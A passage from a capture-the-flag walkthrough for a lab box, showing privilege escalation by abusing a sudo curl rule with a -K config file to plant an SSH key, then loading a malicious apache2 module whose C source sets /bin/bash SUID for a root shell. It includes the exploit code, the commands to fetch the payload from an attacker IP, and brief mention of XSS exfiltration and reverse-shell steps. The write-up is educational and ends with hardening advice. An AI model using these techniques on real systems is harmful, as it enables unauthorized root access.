ssh rgiskard@robots.thm
ubuntu-jammy), not the container — the reused DB-scheme password gets us onto the box itself as rgiskard.rgiskard → dolivaw — sudo curl Config Abuse
rgiskard@ubuntu-jammy
sudo -l
User rgiskard may run the following commands on ubuntu-jammy:
(dolivaw) /usr/bin/curl 127.0.0.1/*The sudoers rule only checks the positional URL argument against 127.0.0.1/*. It says nothing about flags — and curl takes a -K <file> option that reads additional configuration from a file, including where to send output. So the positional argument can stay compliant while a config file redirects the real behaviour: read a local file, and write it wherever I like — including dolivaw's authorized_keys.
Generate a keypair on the attack box, place the public key on target, and let sudo-curl write it into dolivaw's .ssh:
attack box
ssh-keygen -t ed25519 -f ./dolivaw_key -N ""
cat dolivaw_key.pubtarget — as rgiskard
echo "ssh-ed25519 AAAA...<your pubkey>..." > /tmp/key.txt
cat > /tmp/curlrc << 'EOF'
url = "file:///tmp/key.txt"
output = "/home/dolivaw/.ssh/authorized_keys"
create-dirs
EOF
# positional URL matches 127.0.0.1/*; -K redirects the real read/write
sudo -u dolivaw curl 127.0.0.1/x -o /dev/null -K /tmp/curlrcattack box — log in as dolivaw
chmod 600 dolivaw_key
ssh dolivaw@robots.thm -i dolivaw_key
dolivaw — and user.txt is here.curl 127.0.0.1/* looks tightly scoped, but -K, -o, --config and friends aren't part of the pattern. When a binary can read a config file or write output to an arbitrary path, a positional-only match is not a real restriction.dolivaw → root — sudo apache2 Module Load
dolivaw@ubuntu-jammy
sudo -l
User dolivaw may run the following commands on ubuntu-jammy:
(ALL) NOPASSWD: /usr/sbin/apache2This is the GTFOBins apache2 sudo vector: Apache can LoadModule an arbitrary shared object, and it loads it as root. Two details make the stock one-liner fail here, and both are worth understanding rather than copy-pasting past.
(1) Apache doesn't just dlopen() the .so — it looks up a module-structure symbol whose name matches the name given in LoadModule <name> <path>. A constructor-only shared object fires its payload but then errors out with undefined symbol. So the C pairs a constructor (which does the actual work) with a dummy exported symbol named after the module.
rootshell.c
#include <stdlib.h>
#include <unistd.h>
__attribute__ ((constructor))
void x() {
setuid(0); setgid(0);
system("chmod +s /bin/bash"); // SUID root bash
}
void *x_module; // satisfies Apache's LoadModule x_module symbol lookupTransferring the exploit — no gcc on target
The box has no compiler, so the module is built on the attack box and shipped over. Compile a shared object locally, serve it, and pull it down with the one download tool the host reliably has:
attack box — compile + serve
# build the module locally — target has no gcc
gcc -shared -fPIC rootshell.c -o rootshell.so
# serve it from the directory holding rootshell.so
python3 -m http.server 8001target — as dolivaw, fetch + verify
curl -o /tmp/rootshell.so http://192.168.128.12:8001/rootshell.so
# confirm it's really an ELF shared object, not a saved 404 page
file /tmp/rootshell.so
/tmp/rootshell.so: ELF 64-bit LSB shared object, x86-64, dynamically linked
chmod +x /tmp/rootshell.socurl is missing too, the alternatives all fit the same pattern. wget -O /tmp/rootshell.so http://192.168.128.12:8001/rootshell.so; or over the SSH session already open, scp ./rootshell.so dolivaw@robots.thm:/tmp/ from the attack box; or, with nothing but bash, cat < /dev/tcp/192.168.128.12/8001 after a manual HTTP request. Always file the result before loading it — a 404 saved as a .so will fail Apache's symbol lookup for the wrong reason and waste time.(2) Apache's config references variables like ${APACHE_RUN_DIR} that are normally set by envvars — absent under a bare sudo invocation. The fix is -C (pre-config, parsed before apache2.conf) to define the variable, not -c (parsed after). Load the module foreground with -X:
target — as dolivaw
sudo /usr/sbin/apache2 -X \
-C "Define APACHE_RUN_DIR /var/run/apache2" \
-c "LoadModule x_module /tmp/rootshell.so"The constructor runs as root before Apache finishes parsing — the later undefined symbol / config warnings are cosmetic, the SUID bit is already set. Collect root:
target — as dolivaw
ls -la /bin/bash
-rwsr-sr-x 1 root root 1396520 /bin/bash # the s bit landed
/bin/bash -p
bash-5.1# id
uid=1003(dolivaw) gid=1003(dolivaw) euid=0(root) egid=0(root) groups=0(root),1003(dolivaw)
cat /root/root.txt
undefined symbol: x_module error, the constructor already ran as root — /bin/bash is now SUID, and -p gives euid=0.NOPASSWD on binaries that load arbitrary code (apache2, curl, and anything on GTFOBins); scope sudo rules to fully-argument-matched commands, never wildcards over a single positional argument; and never bind an application secret into a config the web root can read. Each rule in this chain looked narrow in isolation.Chain Summary & Takeaways
/harm/to/self/ — the only one not 403
md5(username+ddmm)" screams brute-force; "an admin monitors new users" whispers stored XSS. The room gives both on one page and rewards the quiet one. An hour on the rabbit hole was the tuition.document.cookie is empty, pivot to a same-origin authenticated request against any page that reflects the session — here phpinfo — and exfiltrate the response instead of the cookie object.file:// first, then point it at a reverse shell you serve — the server-side fetch does the execution for you.$servername = "db" plus a phpinfo "Docker" build line means the DB is another container — don't burn time trying to reach it directly; tunnel to it. And verify a tunnel with a protocol banner, never a bare TCP connect.curl 127.0.0.1/* and apache2 both look constrained; -K and LoadModule walk right past the constraint. Any sudo binary that reads config files or loads code is effectively unrestricted.wget/nc/gcc is normal on a container; curl + a static busybox + a locally-compiled .so cover it. Always file the download — a 404 saved as your binary fails for the wrong reason and eats time.user.txt, root.txt and the recovered date/hash are kept out. Every command above reproduces them against a live instance — which is the part worth having.